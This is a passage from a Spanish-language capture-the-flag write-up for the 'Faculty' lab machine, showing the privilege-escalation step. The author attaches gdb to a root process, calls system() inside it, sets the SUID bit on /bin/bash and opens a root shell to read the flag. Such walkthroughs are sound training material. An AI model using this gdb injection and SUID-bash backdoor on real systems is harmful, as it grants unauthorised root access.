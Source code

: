 Por lo tanto probare si esto funciona ejecutando gdb attacheando el proceso que seria el 695
```bash
developer@faculty:~$ gdb -p 695
(gdb) call (void)system("whoami")
[Detaching after vfork from child process 8110]
(gdb) call (void)system("whoami > /tmp/test")
[Detaching after vfork from child process 8119]
```
Veo que si me ejecuta el comando y lo redirijo a un archivo en `/tmp` llamado test

![tmp](../assets/images-Faculty/tmp.png)

Por lo tanto ahora cambiara los permisos de la bash a SUID

```bash
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 8182]

```

![root](../assets/images-Faculty/root.png)

Ahora solo ejecuto bash -p  y ya puedo ver la flag de root
```bash
developer@faculty:~$ bash -p
bash-5.0# cd /root
bash-5.0# cat root.txt 
*******************d80be82af
```
